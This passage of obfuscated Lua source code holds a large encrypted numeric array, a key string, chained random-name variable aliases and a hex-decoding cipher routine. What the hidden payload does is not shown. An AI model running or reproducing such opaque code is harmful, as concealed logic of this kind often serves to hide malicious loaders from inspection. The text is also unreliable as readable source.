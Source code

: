 end)end)end)end;hV5RwI0HNOY5yksR1b5JZUfVlLFCuHgWPd1poTfoVIq1aWEGU7JwxLOQNeUNx5G4({1128,832,797,746,584,719,683,1050,1069,607,932,833,1139,1112,764,1184,756,895,994,815,604,843,656,546,644,591,821,1024,1090,818,846,671,944,863,547,1160,718,1142,1206,772,914,1061,1072,820,1121,592,623,1148,898,601,1026,1011,554,694,748,1064,852,961,890,744,940,909,1045,1000,1060,795,941,1095,1145,1125,626,682,728,1067,1126,971,823,1056,929,964,865,651,662,781,1186,751,565,972,1106,543,803,853,1147,1154,618,664,1019,631,1048,982,1040,1097,1018,1187,997,1099,1031,611,713,1149,1084,1211,598,1193,679,935,681,622,659,736,557,589,1078,610,650,855,552,965,570,896,1100,1140,1151,819,643,841,913,599,1017,1037,1023,811,768,862,660,792,924,1194,840,1009,750,962,1116,703,826,1114,673,947,990,675,816,770,987,747,1001,897,677,1027,1005,901,753,1127,708,684,788,942,943,1105,879,620,1201,1053,556,1129,959,551,948,723,1171,1096,1054,593,1076,742,1059,1167,974,698,891,762,1207,789,672,1046,661,1039,1135,824,635,899,1134,1047,930,882,902,1120,1057,907,1088,706,830,837,936,615,1085,648,966,1051,1165,1176,637,995,845,642,804,883,667,1109,714,1115,1035,958,749,1177,1181,701,739,922,1155,779,652,582,555,799,602,710,647,636,910,782,583,629,1004,827,1188,1107,720,1015,790,866,743,1166,559,594,605,1034,581,666,1195,938,715,1159,939,1144,619,561,1130,735,657,702,733,575,638,857,798,630,1082,588,1058,1065,1073,665,1108,767,980,912,1161,888,1136,1016,563,680,835,801,874,885,916,775,731,1092,566,1049,976,1021,859,927,817,992,1029,1070,1157,1185,905,873,785,1123,1124,923,773,1179,864,758,1117,574,1153,757,688,1094,981,1210,1080,911,783,734,851,849,800,954,765,545,968,871,867,957,577,1012,627,986,707,689,725,641,670,921,1075,1071,998,754,828,960,544,774,1104,685,1158,1197,950,893,1202,802,1131,597,709,1111,1212,791,847,771,1030,645,596,953,558,562,1083,917,663,1013,1174,850,1043,658,906,796,1008,1150,608,886,1191,848,699,691,745,609,952,956,579,1183,639,1081,668,1007,693,692,560,1162,1074,813,587,814,878,1146,740,877,755,612,1062,568,1044,1089,908,737,978,1173,655,967,687,761,632,844,600,548,805,937,1079,621,1033,1200,628,1204,769,872,700,729,711,1055,860,787,949,674,810,590,1156,856,1198,1041,1077,809,595,931,1010,573,892,732,617,1192,1086,975,861,640,1152,741,603,858,834,716,900,825,920,955,951,1087,1122,776,1196,549,1168,696,1180,854,1098,752,1172,918,977,838,553,991,1110,794,989,1141,1119,766,1042,903,1063,831,928,778,585,993,-1,62,90,20,43,67,54,80,117,105,45,118,89,3,94,90,12,67,69,65,81,59,35,6,11,250,42,173,45,208,217,101,44,101,143,29,84,111,81,19,68,11,46,54,36,39,36,86,22,69,123,104,68,120,55,53,6,86,17,41,52,67,120,13,145,59,22,86,116,40,61,11,216,119,137,89,93,103,116,60,95,127,33,215,10,111,81,40,97,116,31,113,155,65,32,39,120,22,82,124,121,104,42,42,226,59,75,28,113,110,85,184,129,87,61,112,26,24,9,100,38,14,71,34,7,63,11,192,67,42,106,75,114,98,114,124,207,60,67,68,55,40,89,115,83,64,11,127,11,120,14,30,52,240,108,118,112,104,104,58,39,98,142,212,54,104,67,42,81,122,101,104,45,119,114,88,45,55,53,15,251,127,35,125,109,124,61,120,22,118,17,44,119,49,35,97,243,66,87,86,117,42,29,122,60,81,111,16,127,4,97,79,22,111,31,2,43,87,195,59,76,92,25,120,26,8,22,102,109,86,22,31,75,44,48,26,54,109,50,55,68,72,73,104,68,111,66,107,76,49,62,198,8,94,108,42,77,58,69,97,84,90,13,42,83,212,167,89,22,60,197,87,33,110,111,27,102,60,8,16,61,105,2,22,101,41,72,5,89,66,17,34,111,85,154,60,60,172,77,51,75,82,31,36,61,52,110,75,123,90,58,22,17,62,119,86,111,83,67,44,70,90,59,53,60,42,63,99,12,101,68,20,59,67,236,111,44,112,31,95,105,53,70,43,75,27,90,95,57,86,105,101,203,24,59,104,39,102,22,26,104,112,40,120,106,102,4,33,42,22,58,118,72,111,48,54,43,243,4,111,66,88,8,253,53,68,111,9,123,20,59,156,51,49,72,14,32,45,10,1,127,127,54,126,155,116,100,111,58,27,67,38,115,56,111,94,19,118,119,57,5,107,45,43,53,68,104,18,90,105,60,80,80,32,46,38,44,182,17,33,88,165,184,178,115,108,122,10,104,86,126,80,69,55,240,89,22,133,114,79,173,167,33,17,134,56,105,40,104,72,36,8,70,27,32,21,39,69,65,54,248,38,46,33,105,102,66,112,23,38,183,61,49,47,162,111,11,98,50,5,72,122,51,40,19,105,40,42,27,54,25,29,86,86,22,30,26,4,66,119,60,93,45,22,79,11,204,43,75,114,90,14,120,111,99,1,77,42,22,22,111,5,40,90,42,15,111,24,33,156,86,48,42,36,78,101,89,38,115,94,109,53,69,7,42,59,20,28,68,60,83,77,22,41,124,48,253,17,81,7,77,101,105,8,111,102,115,115,17,13,41,205,99,123,96,226,199,100,39,6,123,66,49,90,17,85,88,62,85,32,122,122,127,24,72,69,62,83,44,55,110,215,142,42,49,5,45,193,93,105,111,58,13,135,82,103,201,97,67,109,101,114,34,115,122,94,102,147,226,111,97,111,24,0,55,91,31,189,84,110,37,29,104,69,60,84,198,25,88,19,104},"yAONHXZvcOOR66hWzkeSX4HEI1");g1EK9eJd6auL7Eb0LgejIoGpG8fgy8YQGcsKT6cFZxD5pi33vv6YN3rmOogQHq2kuB=jCTpABRyHWLttrFXFsD0qbNDvQx7mVsV9p2sjOtnXluN5KkdfJXssOTweuTy;blkCpPkVn6sUcfbJX3Hp9sqdvx7LXdiqOMDtXPz2ctiOn1zf8uBuXWiaMYZw2isttor9r=jCTpABRyHWLttrFXFsD0qbNDvQx7mVsV9p2sjOtnXluN5KkdfJXssOTweuTy;pbWALTwxMYOzFQMCjeDCuU2NL55fSPDh8w1uxAEfoq1PKEpm1fu1V1tkIC2jVDGXNJtnsPj9=blkCpPkVn6sUcfbJX3Hp9sqdvx7LXdiqOMDtXPz2ctiOn1zf8uBuXWiaMYZw2isttor9r;cfvLw2H9UJ65YU1n7nTKbicrRs7HngSQHCbRugVe1eUGfKoBcQyA=pbWALTwxMYOzFQMCjeDCuU2NL55fSPDh8w1uxAEfoq1PKEpm1fu1V1tkIC2jVDGXNJtnsPj9;v8tkx0o8eRt2yiqULHpk3K1c5cpboZpCM42xameWJdhIeetYOR8=cfvLw2H9UJ65YU1n7nTKbicrRs7HngSQHCbRugVe1eUGfKoBcQyA;rdYkmKnB9ZQtF9v1XeLcyH1HEPmXYhc1WAnbQWZy0HgA9MGB8M0Yv4xbJznN914bsW=v8tkx0o8eRt2yiqULHpk3K1c5cpboZpCM42xameWJdhIeetYOR8;v94FmFEb8QxypyBJBwjkkjtmwj3f8NmbFAvtGX3NCczTOEzPLLVGzqLrpYLVzGUQMcCqRxRh7=rdYkmKnB9ZQtF9v1XeLcyH1HEPmXYhc1WAnbQWZy0HgA9MGB8M0Yv4xbJznN914bsW;ee9LdxrNs4Vvdvm8fUrOAVKbPZEi1UZvzMlaKTrGk9fL1wXAkUXe3o6KZzLLD6u=v94FmFEb8QxypyBJBwjkkjtmwj3f8NmbFAvtGX3NCczTOEzPLLVGzqLrpYLVzGUQMcCqRxRh7;uEKzK28pwqQsBXPaZRLItkkbokvhDX4vVp0gKEEdbXoRffixkRf04f=function(a)K,F=6407850469031620,16384+6721;return a:gsub('%x%x',function(c)L=K%274877906944;H=(K-L)/274877906944;M=H%128;c=tonumber(c,16)m=(c+(H-M)/128)*(2*M+1)%256;K=L*F+H+c+m;return
